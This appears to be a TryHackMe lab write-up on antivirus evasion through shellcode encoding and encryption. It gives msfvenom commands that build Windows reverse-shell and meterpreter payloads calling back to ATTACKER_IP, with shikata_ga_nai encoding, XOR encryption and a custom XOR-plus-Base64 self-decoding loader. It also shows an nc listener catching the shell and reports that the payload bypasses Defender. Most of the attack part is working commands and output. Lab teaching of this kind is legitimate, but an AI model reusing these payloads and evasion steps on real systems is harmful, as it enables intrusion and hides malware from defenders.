 # Task 8 Shellcode Encoding and Encryption

Task 8 Shellcode Encoding and Encryption

# Encode using MSFVenom

Public Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim's disk.

Let's generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to msfvenom with the following command:

Listing Encoders within theMetasploitFramework

```
user@AttackBox$ msfvenom --list encoders | grep excellent    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

```bash
msfvenom --list encoders | grep excellent
```

We can indicate we want to use the **`shikata_ga_nai`** encoder with the **`-e`**(encoder) switch and then specify we want to encode the payload three times with the **`-i`** (iterations) switch:

Encoding using the Metasploit framework (Shikata_ga_nai)

```
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharpFound 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```

```bash
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/747c69e737c96044123329c47845f659.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/747c69e737c96044123329c47845f659.png)

If encoding doesn't work, we can always try encrypting the payload. Intuitively, we would expect this to have a higher success rating, as decrypting the payload should prove a harder task for the AV. Let's try that now.

# Encryption using MSFVenom

You can easily generate encrypted payloads using msfvenom. The choices for encryption algorithms are, however, a bit scarce. To list the available encryption algorithms, you can use the following command:

Listing encryption modules within theMetasploitFramework

```
user@AttackBox$ msfvenom --list encryptFramework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

```bash
msfvenom --list encrypt
```

Let's build an XOR-encrypted payload. For this type of algorithm, you will need to specify a key. The command would look as follows:

Xoring Shellcode using the Metasploit framework

```
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

Once again, if we upload the resulting shell to the THM Antivirus Check! page at **`http://10.10.189.219/`**, it will still be flagged by the AV. The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.

# Creating a Custom Payload

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn't know what to do to analyze our payload. Notice you don't have to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.

Let's start by generating a reverse shell with msfvenom in CSharp format:

Generate a CSharp shellcode Format

```
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

```bash
msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

# The Encoder

Before building our actual payload, we will create a program that will take the shellcode generated by msfvenom and encode it in any way we like. In this case, we will be XORing the payload with a custom key first and then encoding it using base64. Here's the complete code for the encoder (you can also find this code in your Windows machine at C:\Tools\CS Files\Encryptor.cs):

[*Full Payload Code (Click to read)*](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Encoder%20f7b993c1ebbb4cba843f68382d34bbff.md) 

[link to encoder](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Encoder%20f7b993c1ebbb4cba843f68382d34bbff.md)

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the **`buf`** variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:

Compiling and running our custom CSharp encoder

```
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

```bash
csc.exe Encrypter.cs
```

```bash
.\Encrypter.exe
```

# Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at **`C:\Tools\CS Files\EncStageless.cs`**):

[*Full Payload Code (Click to read)*](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Enc%20Stageless%20cs%20708230a1f2424e068fa158c44c73b5db.md)

Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let's compile our payload with the following command on the Windows machine:

Compile Our Encrypted Payload

```
C:\> csc.exe EncStageless.cs
```

Before running our payload, let's set up an **`nc`** listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:

Set Up nc Listener

```
user@AttackBox$ nc -lvp 443Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```

As you can see, simple adjustments are enough sometimes. Most of the time, any specific methods you find online won't probably work out of the box as detection signatures may already exist for them. However, using a bit of imagination to customize any method could prove enough for a successful bypass.

Answer the questions below:

Try to use this technique (combining encoding and encryption) on the THM Antivirus Check at **`http://10.10.189.219/`**. Does it bypass the installed AV software?

yes/NAN

[Encoder](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Encoder%20f7b993c1ebbb4cba843f68382d34bbff.md)

[Enc Stageless.cs](Task%208%20Shellcode%20Encoding%20and%20Encryption%20644f125c98ce41c9ad3a1a295c03edc5/Enc%20Stageless%20cs%20708230a1f2424e068fa158c44c73b5db.md)